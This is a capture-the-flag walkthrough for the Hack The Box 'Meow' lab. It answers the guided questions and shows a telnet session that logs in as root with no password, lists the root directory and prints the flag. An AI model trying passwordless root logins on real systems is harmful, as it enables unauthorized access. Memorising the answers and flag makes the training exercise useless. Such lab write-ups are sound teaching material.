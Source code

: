 ```yaml
---

title: "Meow"
date: 2022-05-12 01:09:33 +0300
author: oste
image: /assets/img/Posts/meow.png
categories: [HTB, Starting Point, Tier 0]
tags: [linux, Telnet]
---
```


#### What does the acronym VM stand for?

`Virtual Machine`

#### What tool do we use to interact with the operating system in order to start our VPN connection?

`terminal`

#### What service do we use to form our VPN connection?

`openvpn`

#### What is the abreviated name for a tunnel interface in the output of your VPN boot-up sequence output?

`tun`

#### What tool do we use to test our connection to the target?

`ping`

#### What is the name of the script we use to scan the target's ports?

`nmap`

#### What service do we identify on port 23/tcp during our scans?

`telnet`

#### What username ultimately works with the remote management login prompt for the target?

`root`

#### Submit root flag

```bash
➜  kali telnet 10.129.199.11 23
Trying 10.129.199.11...
Connected to 10.129.199.11.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 22 Dec 2021 12:21:06 PM UTC

  System load:  0.0               Processes:             139
  Usage of /:   41.7% of 7.75GB   Users logged in:       0
  Memory usage: 4%                IPv4 address for eth0: 10.129.199.11
  Swap usage:   0%


75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Meow:~# pwd
/root
root@Meow:~# ls -la
total 36
drwx------  5 root root 4096 Jun 18  2021 .
drwxr-xr-x 20 root root 4096 Jul  7 11:02 ..
lrwxrwxrwx  1 root root    9 Jun  4  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3132 Oct  6  2020 .bashrc
drwx------  2 root root 4096 Apr 21  2021 .cache
-rw-r--r--  1 root root   33 Jun 17  2021 flag.txt
drwxr-xr-x  3 root root 4096 Apr 21  2021 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r--r--  1 root root   75 Mar 26  2021 .selected_editor
drwxr-xr-x  3 root root 4096 Apr 21  2021 snap
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
root@Meow:~#

```

`HTB{b40abdfe23665f766f9c61ecba8a4c19}`
